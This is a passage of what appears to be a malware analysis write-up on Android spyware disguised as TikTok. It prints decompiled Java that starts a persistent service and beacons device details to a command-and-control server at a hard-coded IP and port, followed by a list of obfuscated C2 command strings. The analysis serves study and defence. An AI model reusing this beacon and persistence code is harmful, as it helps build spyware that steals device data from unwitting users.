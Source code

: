 ```java
            }
            Intent myService = new Intent(context, MainService.class);
            context.startService(myService);
        }
    }
}
```

After completing all these steps to ensure persistence, the spyware starts its actual task. To establish a connection with the C2 server and listen for commands, it initiates a new thread.


## The Beacon

<img src='https://raw.githubusercontent.com/0xSh4dy/0xSh4dy.github.io/master/assets/img/rev/ttsp/ttsp-04.png'>

Once the thread begins its execution, the application promptly creates a new socket and establishes a connection to the IP address `192.168.43.34` on port `4234`. It listens for various commands sent by the server and reacts accordingly. First of all it sends a string to the C2.
```java
MainService.this.sendip = MainService.this.resultipcount + "|Tik tok|" + MainService.this.resultip + "|" + MainService.this.buildx + "|" + MainService.this.mOdel + "|" + MainService.this.prox + "|1.1.1|" + MainService.this.apilev + "|8axxr32";
DataOutputStream dataOutputStream = MainService.outputStream;
StringBuilder sb = new StringBuilder();
sb.append("#");
sb.append(MainService.this.sendip);
dataOutputStream.writeBytes(sb.toString());
```
where
```
this.buildx => The manufacturer of the device
this.m0del => The end-user-visible name for the device.
this.prox => The name of the overall product
this.apilev => The SDK version of the software running on the device
```
Once the device information is sent, the application actively awaits incoming commands from the C2. Below is a comprehensive list of various commands involved:
```
Spex22c|
Unistxcr
dowsizetr
DOWdeletx
Xr7aou
Caspylistx
spxcheck
S8p8y0
Sxpxy1
screXmex
Batrxiops
L4oclOCMAWS
FdelSRRT
chkstzeaw
IODBSSUEEZ
GUIFXB
LUNAPXER
Gapxplister
DOTRall8xxe
Acouxacour
Fimxmiisx
Scxreexcv4
micmokmi8x
DTXXTEGE3
ODDSEe
```